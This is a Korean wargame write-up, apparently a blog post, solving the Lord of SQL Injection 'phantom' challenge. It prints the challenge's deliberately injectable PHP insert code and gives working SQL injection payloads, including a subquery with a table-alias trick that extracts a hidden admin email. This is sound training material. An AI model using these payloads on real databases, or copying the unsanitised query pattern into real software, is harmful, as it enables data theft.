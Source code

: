 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - phantom 문제풀이"
excerpt_separator: <!--more-->
comments : true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번엔 유령이다 유령  

`phantom` 이라는 문제인데 Write-up은 `The Phantom Of The Opera` 들으면서 써야겠다.  

<!--more-->

코드는 다음과 같다.  

|     ip    |      email     |
|:---------:|:--------------:|
| 127.0.0.1 | ************** |

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect("phantom");

  if($_GET['joinmail']){
    $query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
    mysql_query($query);
    echo "<hr>query : <strong>{$query}</strong><hr>";
  }

  $rows = mysql_query("select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
  echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
    while(($result = mysql_fetch_array($rows))){
    if($result['no'] == 1) $result['email'] = "**************";
    echo "<tr><td>{$result[ip]}</td><td>{$result[email]}</td></tr>";
  }
  echo "</table>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_phantom where no=1 and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])){ mysql_query("delete from prob_phantom where no != 1"); mysql_query("alter table prob_phantom AUTO_INCREMENT=2"); solve("phantom"); }
  highlight_file(__FILE__);
?>
```

보면 `joinmail`이라는 이름으로 가입 할(?) 이메일 주소를 입력 받는다.  

그리고 현재 데이터베이스에 저장되어 있는 값 중, `no=1`인 값과 내 IP 주소와 같은 주소로 저장되어 있는 행을 `select` 해 출력 해 준다.  

이 때, `no=1`인 행의 `email` 주소는 `**************`로 바뀌어 출력된다.  

문제를 풀기 위해서는 `no=1`인 행의 `email`의 주소를 정확하게 알아내면 된다.  

`joinmail`에서 테스트를 해 보았더니, 넘어온 값에 대해 제대로 검증을 하지 않아 한번에 여러 행을 추가할 수 있다는 사실을 알아냈다.  

```
?joinmail=test1'), (2, 'MY IP', 'test2
```

이렇게 입력하면 완성되는 쿼리는 아래와 같다.  

```
insert into prob_phantom values(0,'MY IP','test1'), (2, 'MY IP', 'test2')
```

그 결과 한번에 `test1`과 `test2`가 저장된 것을 확인할 수 있다.  

그래서 처음에는 `no=1`인 행을 덮어 쓰면 되지 않을까 생각했다.  

근데 `no` 자리에 `1`을 넣어서 시도 해 보면 아예 쿼리가 먹히지 않았다.  

아무래도 뭔가 설정 상으로 막아둔 것 같았다.  

그래서 그 다음 방법으로는 `insert`문에 `select`로 `subquery`를 넣어 `no=1`인 행의 `email`을 뽑아 새로운 행으로 저장하는 방법을 생각했다.  

처음에 문법을 제대로 몰라서 좀 삽질을 했다.  

내 서버에서 테스트를 좀 했었는데, `ERROR 1093 (HY000): You can't specify target table 'user' for update in FROM clause` 이런 오류가 계속 났다.  

알고보니 현재 테이블에서 값을 뽑아 현재 테이블의 값으로 저장하는 것은 안된다고 한다.  

예를 들어, 아래와 같은 `insert`문을 작성했다고 가정하자.  

```
insert into user value('id1', 'pw1'), ('id2', (select pw from user where id='admin'));
```

이 경우, `user`라는 테이블에 `user` 테이블에서 값을 추출 해 삽입하기 때문에 위와 같은 `1093`에러가 발생한다.  

이 때 간단한 해결 방법이 있는데, 바로 `select` 문에서 테이블 명에 별칭을 주는 것이다.  

```
insert into user value('id1', 'pw1'), ('id2', (select pw from user tmp where id='admin'));
```

위와 같이 `select pw from user`를 `select pw from user tmp`로 바꾸면 에러가 발생하지 않는다.  

이를 바탕으로 쿼리문을 아래와 같이 구성했다.  

```
?joinmail=test'), (3, '210.126.104.194', (select email from prob_phantom tmp where no=1))#
```

그 결과 평문으로 된 `no=1`인 행의 `email` 주소를 얻을 수 있었다.  

|     ip    |            email           |
|:---------:|:--------------------------:|
| 127.0.0.1 | **************             |
| MY IP     | admin_secure_email@debu.kr |
| MY IP     |            test            |

이제 이메일을 구했으니, `?email=admin_secure_email@debu.kr`을 쿼리스트링으로 넘기면 문제를 풀 수 있다.  

```php
PHANTOM Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect("phantom");

  if($_GET['joinmail']){
    $query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
    mysql_query($query);
    echo "<hr>query : <strong>{$query}</strong><hr>";
  }

  $rows = mysql_query("select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
  echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
    while(($result = mysql_fetch_array($rows))){
    if($result['no'] == 1) $result['email'] = "**************";
    echo "<tr><td>{$result[ip]}</td><td>{$result[email]}</td></tr>";
  }
  echo "</table>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_phantom where no=1 and email='{$_GET[email]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['email']) && ($result['email'] === $_GET['email'])){ mysql_query("delete from prob_phantom where no != 1"); mysql_query("alter table prob_phantom AUTO_INCREMENT=2"); solve("phantom"); }
  highlight_file(__FILE__);
?>
```

`PHANTOM Clear!!`